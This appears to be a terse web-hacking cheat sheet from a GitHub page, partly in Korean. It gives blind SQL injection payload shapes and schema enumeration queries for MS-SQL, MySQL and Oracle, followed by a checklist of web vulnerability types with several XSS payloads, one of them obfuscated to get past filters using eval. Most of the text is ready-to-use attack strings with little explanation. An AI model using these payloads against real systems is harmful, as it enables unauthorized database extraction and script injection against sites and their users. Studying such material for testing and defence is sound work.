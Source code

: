 <h2>[MS-SQL]</h2> <br>
# Shape <br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
# get DB NAME <br>
db_name() <br>
<br>
# Get Table name <br>
select top 1 name from sysobjects where xtype='U' <br>
<br>
# Get Column name <br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]' <br>
<br>
# Get Data <br>
select top 1 [Column Name] from [Table Name] <br>
<br>
<br>
<br>
<h2>[MySQL]</h2> <br>
# Shape <br>
???' and ascii(substring((query), 1, 1)) > 'a'# <br>
<br>
# Get Table Name <br>
select table_name from information_schema.tables where table_type='base table' limit 0,1 <br>
                                                                                     ㄴ> 0번 째 테이블 <br>
  
-----------------------------------------------------------------------------------
<h2>[Oracle]</h2> <br>
#Shape <br>
and (ascii(SUBSTR(select username from all_users where rownum = 1),1,1))) > 1<br>
<br>
#Get DB name <br>
select DISTINCT owner FROM all_tables;<br>
<br>
#Get Table name <br>
select table_name from all_tables;<br>
<br>
#Get Column name <br>
select column_name from all_tab_columns where table_name='[table name]';<br>

-----------------------------------------------------------------------------------
Row 갯수 파악

Limit 기능
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF<br>
`<img src="#" onmouseover="alert(1);">`<br>
`<img src="#" onerror="alert(1);">`<br>
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`<br>
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
